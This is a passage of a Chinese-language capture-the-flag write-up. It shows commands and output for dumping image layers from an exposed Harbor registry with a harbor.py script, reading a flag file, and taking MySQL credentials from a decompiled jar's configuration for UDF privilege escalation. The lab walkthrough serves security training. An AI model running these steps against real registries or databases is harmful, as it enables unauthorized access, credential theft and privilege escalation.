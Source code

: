 ```console
    [+] Downloading : da8ef40b9ecabc2679fe2419957220c0272a965c5cf7e0269fa1aeeb8c56f2e1
    [+] Downloading : fb15d46c38dcd1ea0b1990006c3366ecd10c79d374f341687eb2cb23a2c8672e
    [+] Downloading : 413e572f115e1674c52e629b3c53a42bf819f98c1dbffadc30bda0a8f39b0e49
    [+] Downloading : 8bd8c9755cbf83773a6a54eff25db438debc22d593699038341b939e73974653

root@kali-server:~# tree | grep f1ag
│   │       │   ├── f1ag05_Yz1o.txt
root@kali-server:~# find . -name f1ag05_Yz1o.txt
./caches/harbor_secret/latest/413e572f115e1674c52e629b3c53a42bf819f98c1dbffadc30bda0a8f39b0e49/f1ag05_Yz1o.txt

root@kali-server:~# cat ./caches/harbor_secret/latest/413e572f115e1674c52e629b3c53a42bf819f98c1dbffadc30bda0a8f39b0e49/f1ag05_Yz1o.txt
flag05: flag{8c89ccd3-029d-41c8-8b47-98fb2006f0cf}
```

## flag06 | Harbor to MySQL

转储 projectadmin 项目。

```console
root@kali-server:~# python3 harbor.py http://172.22.14.46/ --dump project/projectadmin --v2
[+] Dumping : project/projectadmin:latest
    [+] Downloading : 63e9bbe323274e77e58d77c6ab6802d247458f784222fbb07a2556d6ec74ee05
    [+] Downloading : a1ae0db7d6c6f577c8208ce5b780ad362ef36e69d068616ce9188ac1cc2f80c6
    [+] Downloading : 70437571d98143a3479eaf3cc5af696ea79710e815d16e561852cf7d429736bd
    [+] Downloading : ae0fa683fb6d89fd06e238876769e2c7897d86d7546a4877a2a4d2929ed56f2c
    [+] Downloading : 90d3d033513d61a56d1603c00d2c9d72a9fa8cfee799f3b1737376094b2f3d4c
```

项目中存在 ProjectAdmin-0.0.1-SNAPSHOT.jar 文件，解压或反编译 jar 包。

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/4e31b9ce7a9d8cea.png)

从 application.properties 配置文件中获取到 MySQL 数据库的连接信息。

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/9cfa2949abdbcb34.png)

使用 MDUT 连接 MySQL 进行 UDF 提权即可。

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/451656b00d24e094.png)
